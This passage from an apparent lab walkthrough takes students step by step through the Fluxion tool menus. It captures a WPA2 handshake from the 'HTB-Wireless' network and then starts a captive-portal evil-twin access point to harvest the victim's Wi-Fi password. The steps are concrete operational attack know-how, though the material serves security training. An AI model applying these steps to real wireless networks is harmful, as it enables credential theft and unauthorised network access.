 Choose `Option 2 - Synchronously` for the verification occurance.

```
[*] How should verification occur?

	[1] Asynchronously (fast systems only).
	[2] Synchronously (recommended).
	[3] Back

[fluxion@twins]-[~] 2
```

After pressing enter, three terminals will appear. Students need to let the attack run until they see the message `Handshake Snooper attack completed`.

Now, students need to use an Evil-Twin/captive portal attack, and verify the victim's password against the hash found the handshake.

Begin by selecting `Option 1 - Select another attack`.

```
[*] Handshake Snooper attack in progress...

	[1] Select another attack
	[2] Exit

[fluxion@twins]-[~] 1
```

Select `Option 1 - Captive Portal` as the wireless attack.

```
[*] Select a wireless attack for the access point

                      ESSID: "HTB-Wireless" / WPA2                              
                    Channel:  1                                                 
                      BSSID:  52:CD:8C:79:AD:87 ([N/A])                   

	[1] Captive Portal Creates an "evil twin" access point.
	[2] Handshake Snooper Acquires WPA/WPA2 encryption hashes.
	[3] Back 

[fluxion@twins]-[~] 1
```

Choose `Y` to continue targeting the access point used in the first attack.

```
[*] Fluxion is targetting the access point above.
[*] Continue with this target? [Y/n] Y
```

Select `Option 3 - Skip` for the target tracking.

```
[*] Select a wireless interface for target tracking.
[*] Choosing a dedicated interface may be required.
[*] If you're unsure, choose "Skip"!

[1] wlan0    [*]                                                                
[2] wlan1    [+]                                                                
[3] Skip                                                                    
[4] Repeat                                                                    
[5] Back                                                                    

[fluxion@twins]-[~] 3  
```
